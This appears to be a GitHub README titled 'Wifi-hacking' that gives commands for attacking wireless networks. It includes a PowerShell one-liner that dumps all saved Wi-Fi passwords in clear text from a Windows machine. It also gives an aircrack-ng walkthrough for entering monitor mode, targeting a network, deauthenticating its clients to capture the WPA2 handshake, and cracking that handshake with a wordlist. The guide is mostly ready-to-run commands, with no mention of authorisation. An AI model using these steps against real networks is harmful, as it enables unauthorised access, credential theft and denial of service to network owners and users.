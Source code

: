 # Wifi-hacking

## Table of content

- [hardware](#hardware)
- [tools](#tools)
  - [aircrack ng](#aircrack-ng)
  - [airmon ng](#airmon-ng)
  - [airodump ng](#airodump-ng)
  - [wifite](#wifite)
- [tips and tricks and one liners etc](#tips-and-tricks-and-one-liners-etc)
- [cracking manualy with aircrack tools](#cracking-manualy-with-aircrack-tools)
  - [kill processes](#kill-processes)
  - [interface to monitor mode](#interface-to-monitor-mode)
  - [discover wifi](#discover-wifi)
  - [view just the target](#view-just-the-target)
  - [capture WPA2 handshake plus deauthenticate](#capture-WPA2-handshake-plus-deauthenticate)
  - [cracking the handshake](#cracking-the-handshake)

  
  

  
### hardware
  
my recommended use is Alfa AWUS036ACH-C
  
example site:
```
https://cdon.se/hemelektronik/alfa-awus036ach-c-p85144443?gclid=Cj0KCQjwof6WBhD4ARIsAOi65ajClanJarTELWA8x2m-jddNlS2pyJNLfaKC6foh1Ex3yA0PkQHw674aAoA8EALw_wcB
```
  
### tools 
  
## aircrack ng
  
## airmon ng
  
## airodump-ng
  
## wifite

## tips and tricks and one liners etc

find all wifis in a cmd (You will see a list of WLAN profiles stored on the PC.)
```
NETSH WLAN SHOW PROFILE 
```

see the wifi passwords in clear text. look at the "key content" part
```
NETSH WLAN SHOW PROFILE <wifi> KEY=CLEAR 
```
powershell/cmd one-liner command to dump all wifi passwords at once
```
(netsh wlan show profiles) | Select-String “\:(.+)$” | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=”$name” key=clear)} | Select-String “Key Content\W+\:(.+)$” | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize
```

## cracking manualy with aircrack tools
### kill processes
killing the processes that may interfere
```
sudo airmon-ng check kill
```

### interface to monitor mode
to put the interface/adapter to monitor mode type:
```
sudo airmon-ng start <interface>
```

### discover wifi
to search and find wifi in the area type:
```
sudo airodump-ng <interface>
```
then you should find the wifi you want to target and write up
*   BSSID (it is the mac address)
*   Channel (CH)

### view just the target
to see just the target type:
```
sudo airodump-ng <interface> -d <BSSID>
```
then you can see info about the target
plsu you can see clients connected to the network


### capture WPA2 handshake plus deauthenticate
now you will capture the WPA2 handshake. type:
```
sudo airodump-ng -w <name of the file you want to name for the capture> -c <channel> --bssid <BSSID> <interface>
```
press enter
then at the same time after entered the capture and letting it go we will go on and open a second window/terminal we will deauthenticate clients from the network by typing:
```
sudo aireplay-ng --deauth 0 -a <BSSID> <interface>
```
(ops the deauth part can sometimes be used to Ddos a wifi network)

then after a while the handshake should be captured

### cracking the handshake
we should have a file which ends with ".pcap" 
we have to put the adapter which is on monitor mode back to manage mode by typing: 
```
sudo airmon-ng stop <interface>
``` 
now its time to crack the .pcap file
```
aircrack-ng <the pcap file> -w <wordlist to crack the password>
```



